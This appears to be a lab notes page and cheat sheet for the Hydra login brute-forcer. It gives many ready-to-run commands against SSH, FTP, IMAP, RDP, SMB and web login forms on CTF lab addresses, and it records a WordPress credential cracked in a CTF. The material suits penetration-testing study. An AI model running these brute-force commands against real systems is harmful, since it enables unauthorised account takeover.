

hydra
Hydra Password Bruteforce
What is Hydra?
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.
We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.
Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220
Link: https://github.com/vanhauser-thc/thc-hydra
Link: https://github.com/gnebbia/hydra_notes [Important Notes on HOW TO USE]
Hydra is a parallelized, fast and flexible login cracker.
hydra -l username -P wordlist.txt server service
-l : Username static
or
-L: Username wordlist
-p: Password static
or
-P: Password wordlist
server: It is the hostname or IP address of the target server.
service: It indicates the service which you are trying to launch the dictionary attack
-s PORT : To specify “non default” port number
-v : Verbose
-vv : Very Verbose
-t N : Where N is the number of parallel connections to the target. eg. -t 16
-d : Debugging information
Note: -l ------> Lowercase L
Example FTP Login
Eg. hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.117.110 ftp
or
hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://10.10.117.110
Live Example:
hydra -l lazie -P /usr/share/wordlists/rockyou.txt -vv 10.10.117.110 imap
Login Page (POST Method) Example:
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form “Login URL excluding IP:Post method from Burp with cookie:Message”
eg.
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.129 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=75frL29Jq77UAS5O6waIAgvpqUOtcagLXmAs8ntJGK3DU6IXmkigWCYXlctGEb2O2G%2BjF5IteFOYg9pWj2Mqq0iJxVrJkUODXhUuOJ8sbmce0tBELKmw72s8I9JOUKGp6Z87DHYCwVZSIB1k8QZzxc%2BDfuwsKdSogudxveYfMl9Xl9WN&__EVENTVALIDATION=kEqTpl3NK636vrrQoIGLwaBPeMNLrYgB5eLO2J3lhWCriHgdsDifHhxinhhtmfiV8p%2Fdx0IPiK0B5uO5gDR8tsJcKtQEVnqRqGuba%2BcImoxZrFAdTL%2FfNB4nBipBifGFewi7YAqZ8JhkThaZTfMnUpVOTH8tU0jzP03GuC7bHCt9G9K1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv
Explanation
-l --→ admin (Username)
-P --→ /usr/share/wordlists/rockyou.txt (Password File)
10.10.229.129 --→ (URL to attack)
http-post-form --→ (Type of service)
/Account/login.aspx?ReturnURL=/admin/ --→ (Variable Argument 1st field)
__VIEWSTATE=75frL29Jq77UAS5O6waIAgvpqUOtcagLXmAs8ntJGK3DU6IXmkigWCYXlctGEb2O2G%2BjF5IteFOYg9pWj2Mqq0iJxVrJkUODXhUuOJ8sbmce0tBELKmw72s8I9JOUKGp6Z87DHYCwVZSIB1k8QZzxc%2BDfuwsKdSogudxveYfMl9Xl9WN&__EVENTVALIDATION=kEqTpl3NK636vrrQoIGLwaBPeMNLrYgB5eLO2J3lhWCriHgdsDifHhxinhhtmfiV8p%2Fdx0IPiK0B5uO5gDR8tsJcKtQEVnqRqGuba%2BcImoxZrFAdTL%2FfNB4nBipBifGFewi7YAqZ8JhkThaZTfMnUpVOTH8tU0jzP03GuC7bHCt9G9K1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in --→ (Variable Argument 2nd field)
Login failed --→ (Variable Argument 3rd field) Note: We can also use F=login failed [To find that particular word to symbolize failure]
-vv --→ Verbose mode
Note: Variable Arguments should be contained in quoatations and have 3 values seprated by “:” (All 3 Mandatory)
Value 1 - Login URL excluding IP [Can be easily recieved from Burpsuite]
Value 2 - Post Request with cookie information [Can be easily recieved from Burpsuite]
Value 3 - The error message we get from a failed login [Can be found on the web page after giving dummy].
Note:
In the Post request remove the username and password we provided in burp with ^USER^ and ^PASS^
Example Output:

Hydra Cheatsheet:
| Command | Description |
|---|---|
| hydra -P <wordlist> -v <ip> <protocol> | Brute force against a protocol of your choice |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip> | Attack a Windows Remote Desktop with a password list. |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force. |
Samba Example (Did not have sucess)
hydra -l milesdyson -P log1.txt 10.10.68.116 smb

Example SSH
hydra -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.115.254 ssh -vV
Example Post Form
hydra -l milesdyson -P log1.txt 10.10.68.116 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -vv

HTTP Post Brute-Force Example with Wordpress Login:
We will use hydra and dictionary file recieved to find out both username and password.
We capture the post request with burpsuite and collect the three important parameters.
1. Post Requester
2. Post Request
3. Error Message
We get 1 and 2 below

We get 3 below

Hydra Code for finding out Username:
hydra -L /home/cybex/lab/thm/MrRobotCTF/fsocity.dic -p test -s 80 10.10.7.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.69%2Fwp-admin%2F&testcookie=1:Invalid username" -vv -t 64

We found that Elliot is a valid username. This can be confirmed by using the above credentials in wordpress login. We will get a different error message.

keeping the 1 and 2 parameters same. We change the 3 parameter to the above error and following is the hydra code for password brute-force with Elliot as user.
Hydra Code for finding out Password:
hydra -l Elliot -P /home/cybex/lab/thm/MrRobotCTF/fsocity.dic -s 80 10.10.7.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.7.69%2Fwp-admin%2F&testcookie=1:The password you entered for the username" -vv -t 64

Thus, we get the wordpress credentials:
Username: Elliot
Password: ER28-0652
HTTP-GET request Brute Force Example:
Link: https://github.com/gnebbia/hydra_notes
I will use hydra to brute force http-get request. We can use any of the following syntax.
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-get
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-get /
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-head
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.230.171 http-head /